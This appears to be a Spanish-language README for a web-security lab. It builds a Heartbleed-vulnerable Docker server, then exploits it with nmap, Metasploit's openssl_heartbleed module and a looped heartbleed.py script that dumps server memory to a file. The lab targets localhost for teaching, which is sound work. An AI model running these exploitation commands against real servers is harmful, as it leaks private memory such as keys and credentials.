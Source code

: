 # Seguridad de Aplicaciones Web

## Pasos para levantar el entorno de pruebas

Construir la imagen en Docker:

```bash	
docker build -t heartbleed-image-websegapp .
```

Crear un contenedor en base a la imagen abriendo los puertos y exponiendo los volumenes internos:

```bash
docker run -p 8080:8080 -p 443:443 --name heartbleed-server -d -it heartbleed-image-websegapp java -Dserver.port=$PORT $JAVA_OPTS -jar target/que-me-pongo-0.0.1-SNAPSHOT.jar
```

## Verificar si el servidor es vulnerable 

Con NMAP:

```bash
nmap -sV –script=ssl-heartbleed
```

Con MSF:
```bash
msfconsole
```

Usamos el plugin para explotar la vulnerabilidad:
```bash
use auxiliary/scanner/ssl/openssl_heartbleed
```

Establecer el servidor victima y ponemos en modo dump el plugin:

```bash
set RHOSTS localhost
set verbose true
```

Explotamos la vulnerabilidad:

```bash
exploit
```

## Hacer dump de la memoria del servidor HTTP vulnerable:

Requisito: tener instalado python 2.7

Creamos el archivo donde vamos a hacer dump del servidor y vemos que va pasando en vivo:

```bash
truncate -s0 /tmp/heartbleed.out && tail -f /tmp/heartbleed.out
```

Ejecutamos el exploit cada un segundo y volcamos el contenido:

```bash
while true; do python heartbleed.py localhost >> /tmp/heartbleed.out; sleep 1; done
```

## License
[MIT](https://choosealicense.com/licenses/mit/)

